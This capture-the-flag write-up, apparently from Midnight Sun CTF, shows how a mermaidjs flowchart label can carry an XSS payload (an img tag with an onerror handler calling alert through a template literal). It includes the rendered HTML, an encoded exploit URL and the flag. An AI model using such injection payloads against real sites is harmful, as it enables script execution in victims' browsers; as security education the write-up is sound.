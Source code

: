 ```yaml
---
tags: ["xxs", "mermaidjs"]
---
```

# Challenge
> Fine, I'll use a damn lib. Let's see if it's any better.

This challenge is based on the same setup as marcodowno. Instead of converting markdown, this challenge converts [mermaidjs](https://mermaidjs.github.io/) charts to HTML.

# Solution

Let's have a look at the first example on the mermaidjs page and check how it its parsed.

```
graph TD;
    A-->B;
```

This input is parsed using the [flowchart parser](https://github.com/knsv/mermaid/blob/master/src/diagrams/flowchart/parser/flow.jison) written in a bison-like language.
A few of the parsing rules look promising:

`textToken` consumes a bunch interesting characters that are dumped as-is into the HTML output:
```<>[]"'`:.-```
The `textToken` rule is used to parse vertex names in the link statement `A-->B`.
Parentheses are not allowed though so we'll have to improvise on the `alert(1)` call:

[Template literals](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals) can be used to call functions without using parentheses.
```alert`1` ``` is equivalent to `alert(["1"])` and by string coercion equivalent to `alert('1')`.

Here's the final payload:

```
graph LR;
    X-->Y[Y<img src=x onerror='alert`1`' />];
```

This is the relevant output produced:

```html
<div xmlns="http://www.w3.org/1999/xhtml" style="display: inline-block; white-space: nowrap;">Y<img src="x" onerror="alert`1`"></div>
```

http://marcozuckerbergo-01.play.midnightsunctf.se:3002/markdown?input=%67%72%61%70%68%20%4c%52%3b%0a%20%20%20%20%58%2d%2d%3e%59%5b%59%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%27%61%6c%65%72%74%60%31%60%27%20%2f%3e%5d%3b

midnight{1_gu3zz_7rust1ng_l1bs_d1dnt_w0rk_3ither:(}
